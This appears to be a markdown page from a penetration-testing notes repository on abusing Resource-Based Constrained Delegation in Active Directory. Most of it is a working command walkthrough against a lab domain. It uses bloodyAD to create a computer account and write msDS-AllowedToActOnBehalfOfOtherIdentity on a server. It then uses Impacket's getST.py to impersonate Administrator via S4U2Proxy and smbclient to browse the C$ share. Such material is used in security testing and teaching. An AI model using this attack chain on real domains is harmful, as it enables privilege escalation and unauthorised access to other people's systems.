

# Delegations Abuse

## Resource Based Constraint Delegation
The detail of the attack can be found at [HackNDo - Delegations](https://en.hackndo.com/constrained-unconstrained-delegation/)



When `billy@crash.lab` as GenericAll/GenericWrite/WriteProperties ACE on `SQL01@crash.lab`,
the user `billy@crash.lab` can add `msDS-AllowedToActOnBehalfOfOtherIdentity` property in `SQL01@crash.lab` attribute and set its value
to an user or a computer named `object C`.

Then, `object C` can impersonate any user in the domain (as long as their property `Cannot Be Delegated` is set to `False`)
to connect on `SQL01@crash.lab` services.


### Abuse
For this attack to work, we need an user or a computer object with SPN set.
For the example, we create a computer object in the domain:
```
> python bloodyAD.py -u billy -p 'Password1!' -d crash.lab --host 10.100.10.5 addComputer test 'Password1!'  

[+] test has been successfully added

> python bloodyAD.py -u 'billy' -p 'Password1!' -d crash.lab --host 10.100.10.5  getObjectAttributes 'test$' ServicePrincipalName

{
    "servicePrincipalName": [
        "RestrictedKrbHost/test.crash.lab",
        "RestrictedKrbHost/test",
        "HOST/test.crash.lab",
        "HOST/test"
    ]
}
```

Then, we add `test@crash.lab` in `msDS-AllowedToActOnBehalfOfOtherIdentity` of `SQL01@crash.lab`.

```
> python bloodyAD.py -u billy -p 'Password1!' -d crash.lab --host 10.100.10.5 setRbcd 'test$' 'SQL01$' True 

[!] No security descriptor has been returned, a new one will be created
[*] test$ SID is: S-1-5-21-1400973894-1732215467-1400486941-1111
[+] msDS-AllowedToActOnBehalfOfOtherIdentity set successfully
[+] test$ can now impersonate users on SQL01$ via S4U2Proxy
```

Then, we request a ServiceTicket for `HOST/SQL01.crash.lab` service on behalf of `Administrator` user.

```
> python examples/getST.py -impersonate 'Administrator' -spn 'HOST/SQL01.crash.lab' 'crash.lab/test$:Password1!' -dc-ip 10.100.10.5
Impacket v0.10.1.dev1+20221214.172823.8799a1a2 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Finally, we use the ticket to access SQL01 CIFS.

```
> export KRB5CCNAME=Administrator.ccache
> python examples/smbclient.py 'crash.lab/@SQL01.crash.lab' -dc-ip 10.100.10.5 -k -no-pass -debug
Impacket v0.10.1.dev1+20221214.172823.8799a1a2 - Copyright 2022 Fortra

[+] Impacket Library Installation Path: /home/user/Tools/Networking/impacket/venv/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/SQL01.CRASH.LAB@CRASH.LAB not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for HOST/SQL01.CRASH.LAB@CRASH.LAB
[+] Using TGS from cache
[+] Changing sname from HOST/SQL01.crash.lab@CRASH.LAB to CIFS/SQL01.CRASH.LAB@CRASH.LAB and hoping for the best
[+] Username retrieved from CCache: Administrator
Type help for list of commands
# use C$
# ls
drw-rw-rw-          0  Thu Jan 12 12:47:00 2023 $Recycle.Bin
drw-rw-rw-          0  Thu Jan 12 12:46:19 2023 Documents and Settings
-rw-rw-rw- 1207959552  Mon Jan 23 11:11:32 2023 pagefile.sys
drw-rw-rw-          0  Thu Jan 12 21:44:43 2023 PerfLogs
drw-rw-rw-          0  Thu Jan 12 12:51:47 2023 Program Files
drw-rw-rw-          0  Thu Jan 12 21:44:43 2023 Program Files (x86)
drw-rw-rw-          0  Mon Jan 23 10:52:20 2023 ProgramData
drw-rw-rw-          0  Thu Jan 12 12:46:20 2023 Recovery
drw-rw-rw-          0  Thu Jan 12 12:45:50 2023 System Volume Information
drw-rw-rw-          0  Mon Jan 23 10:52:55 2023 Users
drw-rw-rw-          0  Thu Jan 12 12:53:07 2023 Windows
```